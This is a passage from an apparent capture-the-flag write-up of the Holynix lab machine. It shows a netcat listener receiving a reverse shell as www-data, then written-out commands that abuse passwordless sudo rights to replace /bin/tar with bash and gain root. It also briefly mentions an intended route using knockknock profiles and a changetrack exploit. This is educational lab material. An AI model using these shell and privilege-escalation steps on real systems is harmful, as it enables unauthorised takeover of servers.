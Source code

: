```
# nc -lvp 9998
listening on [any] 9998 ...
192.168.1.155: inverse host lookup failed: Unknown server error : Connection timed out
connect to [192.168.1.154] from (UNKNOWN) [192.168.1.155] 52587
Linux holynix 2.6.24-26-server #1 SMP Tue Dec 1 19:19:20 UTC 2009 i686 GNU/Linux
 12:46:11 up  2:55,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$ 
```

Success, I had gained shell access to the server. First thing I did was to check for sudo access.

```
$ sudo -l
User www-data may run the following commands on this host:
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /bin/chgrp
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /bin/mv
```

Those are a lot of commands and no password required to run them. Here's what I did to root the machine:

```
$ cd /tmp/   
$ cp /bin/bash .
$ sudo chown root:root /tmp/bash
$ sudo mv /bin/tar /bin/tar.orig
$ sudo mv /tmp/bash /bin/tar
$ sudo /bin/tar
id
uid=0(root) gid=0(root) groups=0(root)
```

So a quick breakdown on what I did here was to copy /bin/bash to /tmp, backup /bin/tar, move /tmp/bash to /bin as tar, and then sudo /bin/tar which is essentially running sudo /bin/bash. This results in temporarily making the tar command unavailable, but getting the root shell.

At this point the game is over. However, there is another solution to gaining root, the one that the developer probably intended. To summarize, it involves downloading the contents of /etc/knockknock.d and using the profiles contained within to SSH into the server as one of the users in the developer group. There is an exploit for the changetrack command which allows a user to gain root access to the machine.

Overall an interesting challenge. I was able to root the machine in a different way by taking advantage of the non-password protected sudo commands that were granted to the www-data user. 
